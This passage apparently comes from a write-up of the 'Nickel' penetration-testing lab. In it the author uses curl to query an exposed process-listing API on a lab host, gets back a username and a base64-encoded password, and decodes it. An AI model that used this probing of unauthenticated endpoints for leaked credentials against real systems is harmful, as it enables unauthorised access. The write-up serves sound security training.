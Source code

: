 I instead tried to send a NULL POST Request, which stated we need to include the content length in the header
~~~shell
┌──(kali㉿kali)-[~/Desktop/Nickel]
└─$ curl -X POST http://192.168.191.99:33333/list-running-procs
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Length Required</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Length Required</h2>
<hr><p>HTTP Error 411. The request must be chunked or have a content length.</p>
</BODY></HTML>
~~~
After adding content length into the header of the POST request I recieved a response from the API listing running proccesses including the cmd.exe proccess which had a username: ariah and a base64 encoded password: Tm93aXNlU2xvb3BUaGVvcnkxMzkK
~~~shell
┌──(kali㉿kali)-[~/Desktop/Nickel]
└─$ curl -X POST http://192.168.191.99:33333/list-running-procs -H 'Content-Length: 0'
~~~

![Nickel](/assets/img/NickelPG(2).png)

I decoded the base64 password which returned the password: NowiseSloopTheory139

![Nickel](/assets/img/NickelPG(3).png)
